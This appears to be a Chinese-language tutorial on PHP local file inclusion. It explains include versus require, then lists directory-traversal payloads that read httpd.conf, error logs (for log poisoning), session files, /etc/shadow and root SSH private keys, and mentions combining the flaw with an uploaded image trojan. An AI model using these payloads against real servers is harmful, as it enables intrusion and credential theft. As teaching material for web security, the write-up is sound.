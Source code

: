 + include是当代码执行到它的时候才加载文件,发生错误的时候只是给一个警告,然后继续往下执行
+ require是只要程序一执行就会立即调用文件,发生错误的时候会输出错误信息,并且终止脚本的运行
+ require一般是用于文件头包含类文件、数据库等等文件,include一般是用于包含html模版文件
+ include_once()、require_once()与(include\require)的功能相同,只是区别于当重复调用的时候，它只会调用一次。


当包含的文件中有符合php语法规范的语句时，也会将其当做php执行，

当包含非php语法规范的文件时，会打印其源代码。

如果存在文件上传功能，但是没有漏洞时，可以上传一个图片木马，由于没有限制导致无法被解析成为php时，就可以使用文件包含漏洞进行利用。

本地文件包含也可以用来读取敏感文件。

获取web目录或者其他配置文件：

?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf

（更多→http://wiki.apache.org/httpd/DistrosDefaultLayout）

包含错误日志： ?file=../../../../../../../../../var/log/apache/error.log （试试把UA设置为“”来使payload进入日志）

包含上传的附件：
?file=../attachment/media/xxx.file

读取session文件：
?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7

windows下：

c:\boot.ini

c:\windows\system32\inetsrv\MetaBase.xml

c:\windows\php.ini

c:\windows\my.ini

linux下：

/etc/passwd

/etc/shadow

/var/www/conf/httpd.conf

/var/httpd/conf/php.ini

/var/httpd/conf/httpd.conf

如果拥有root权限还可以试试读这些东西：

目录遍历：

?file=../../../../../../../../../var/lib/locate.db 
?file=../../../../../../../../../var/lib/mlocate/mlocate.db
（linux中这两个文件储存着所有文件的路径，需要root权限）

/root/.ssh/authorized_keys

/root/.ssh/id_rsa

/root/.ssh/id_rsa.keystore
